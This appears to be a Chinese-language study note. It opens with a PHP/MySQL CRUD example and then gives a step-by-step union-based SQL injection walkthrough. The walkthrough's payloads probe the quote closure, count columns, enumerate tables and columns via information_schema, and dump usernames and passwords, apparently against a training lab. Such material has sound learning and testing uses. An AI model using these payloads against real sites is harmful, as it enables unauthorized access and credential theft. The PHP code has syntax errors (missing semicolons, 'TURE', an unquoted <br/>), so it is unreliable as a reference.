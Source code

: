 #### 1、sql标准流程
```php
<?php
$servername = "localhost";
$username = "root";
$password = "root"
$dbname = "hh"	// 库名

$con = new mysqli($servername, $username, $password, $dbname);

if($con->connect_error){
    die("...");
}

//查
$sql = "SELECT * FROM table1 WHERE id = 2";

// 执行sql语句并返回到result变量中
$result = $con->query($sql);

if($result->num_rows > 0){
    // 穷举
    while($row = $result->fetch_assoc()){
        echo $row['username'].'.............'.$row['password'].<br/>
    }
}

// 增
$sql = "INSERT INTO tables (id, username, password) VALUES
	(21, 'test1', 'tttt')"

if($con -> query($sql) === TURE){
    echo '执行成功!!!';
}
else{
    echo '执行失败...'.$con->error;
}

//改
$sql = "UPDATE table1 SET password = '1111'
	WHERE username = 'xiaohong'";

if($con -> query($sql) === TURE){
    echo '执行成功!!!';
}
else{
    echo '执行失败...'.$con->error;
}

// 删
$sql = "DELETE FROM table1 WHERE id = 21";

if($con -> query($sql) === TURE){
    echo '执行成功!!!';
}
else{
    echo '执行失败...'.$con->error;
}

// 断开数据库
$con->close();
?>
```

#### 2、SQL注入

###### sql小知识：mysql -u[用户名] -p[密码]
###### 查看所有的数据库：show databases;
###### 使用某个数据库名：use [数据库名];
###### 查看此库里有什么表：show tables;
##### 步骤1：推断数据库的语法
```
SELECT * FROM ... where id = '参数' limit 0, 1;
SELECT * FROM ... where id = "参数" limit 0, 1;
```
##### 步骤2：让他报错，显示自己的闭合方式
```
闭合方式的可能
' " ') ") )
```
##### 步骤3：验证目标数据库的参数闭合方式
```
?id = 1' limit 0, 1 --+  // --+的作用为将后面的直接注释掉
```
##### 步骤4：确定有多少列
```
?id = 1' order by 10 limit 0, 1 --+ // 二分法求的多少列
```
##### 步骤5：有哪几列显示在网页上（联合查询，前面的参数必须让数据库报错，显示报错位）
```
?id = -1' union select 1, 2, 3 limit 0, 1 --+
```
##### 步骤6：刺探数据库的内部内容
```
?id = -2' union select 1, database(), 3 limit 0, 1 --+
```
###### 注：information_schema是数据库自带的，相当于数据库的户口本
###### information_schema的tables里面保存着所有数据库的库名和自己的表
###### information_schema的columns保存着所有数据库的库名、列名、表名的所有对应关系
```
?id=-2' union select 1, table_name ,3 from information_schema.tables where table_schema = 'security' limit 0, 1--+

?id=-2' union select 1, group_concat(table_name) ,3 from information_schema.tables where table_schema = 'security' --+
```
##### 步骤7：查询表中的列
```
?id=-2' union select 1, group_concat(column_name) ,3 from information_schema.columns where table_schema = 'security' and table_name = 'users'--+
``` 
##### 步骤8：查询内容
```
-2' union select 1, group_concat(username), group_concat(password) from users --+
```
